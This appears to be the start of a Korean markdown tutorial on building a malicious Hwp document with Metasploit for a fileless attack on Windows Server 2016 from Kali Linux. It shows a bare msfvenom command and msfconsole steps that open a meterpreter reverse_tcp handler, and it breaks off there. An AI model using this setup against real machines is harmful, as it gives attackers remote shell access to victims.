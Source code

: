 # 메타스플로잇(Metasploit)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: msfvenom으로 악성코드 제작

```
msfvenom
```

### 2. :smiling_imp: 메타스플로잇으로 핸들러 서버 오픈

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.0
set LPORT 1234
show options
exploit
```
